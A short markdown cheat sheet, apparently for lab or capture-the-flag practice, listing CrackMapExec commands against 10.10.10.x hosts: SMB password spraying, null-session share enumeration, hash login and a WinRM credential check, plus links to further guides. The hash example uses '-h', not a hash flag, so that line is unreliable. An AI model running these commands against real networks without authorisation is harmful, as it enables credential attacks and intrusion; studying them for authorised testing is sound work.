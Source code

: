 ## Scan an smb for auth with same username and password

```
crackmapexec smb 10.10.10.172 -u passwords.txt -p passwords.txt --continue-on-success
```
##  Scan an smb for auth with no username or password

```
crackmapexec smb 10.10.10.175 --shares -u '' -p ''
```

## Login to smb with hash:

```
crackmapexec smb 10.10.10.175 -u admin -h ABKAKEWIEJJ
```
## Test to see if winrm can be accessed:

```
crackmapexec winrm 10.10.10.175 -u fsmith -p ThePassword
```

## Cheat Sheets

https://www.ivoidwarranties.tech/posts/pentesting-tuts/cme/crackmapexec-cheatsheet/

https://byt3bl33d3r.github.io/getting-the-goods-with-crackmapexec-part-1.html

## Gitbook

https://mpgn.gitbook.io/crackmapexec/
